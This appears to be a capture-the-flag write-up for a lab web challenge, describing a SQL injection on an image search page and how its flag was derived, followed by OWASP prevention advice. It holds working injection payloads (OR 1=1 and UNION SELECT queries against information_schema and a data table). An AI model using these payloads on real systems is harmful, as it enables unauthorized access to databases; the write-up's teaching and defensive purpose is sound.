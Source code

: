# Vulnerability

SQL injection allow you to access and manipulate all your datas.

# Identification

# Resolve

Go to http://10.11.249.210/?page=searchimg
Fill the form
1 OR 1=1 and submit (http://10.11.249.210/?page=searchimg&id=1+OR+1%3D1&Submit=Submit#)
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- list_images

Columns name:

- id
- url
- title
- comment

We will parse all columns and find what we need

1 UNION SELECT id, concat(id, url, title, comment) FROM list_images

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html<br>
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection<br>
https://www.dcode.fr/md5-hash<br>
https://www.dcode.fr/sha256-hash
